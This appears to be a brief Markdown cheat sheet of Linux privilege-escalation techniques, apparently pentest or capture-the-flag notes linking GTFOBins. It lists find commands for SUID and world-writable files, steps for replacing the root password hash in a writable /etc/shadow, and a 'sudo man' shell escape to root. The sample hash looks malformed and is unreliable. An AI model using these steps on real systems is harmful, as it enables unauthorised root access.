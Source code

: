 # Privilege Escalation [gtfobins](https://gtfobins.github.io/)

- __1.find / -not -type l -perm -o+w__
- __2.find /  -perm -u=s -type f 2>/dev/null__

- __If you have permission to write `/etc/shadow` use the below commands__
  - __First you need to creat a one hash password using openssl__
    - __`openssl passwd -1 -salt abc password123` it will give you a hash `$1$abc$DSFILJKSD7393llsd.0s/` copy that__
    - __Edit the root password__
      - __`root:$1$abc$DSFILJKSD7393llsd.0s/:1772:0:99999:7:::`__
     

  # sudo -l
  - __1. (root) NOPASSWD: /usr/bin/man__
    - __Type this `sudo man ls` it will display document of the ls__
    - __In the document itself `type !/bin/bash` you will get the root shell__
    - __To read the content of the file you can use `man <file_name>`__
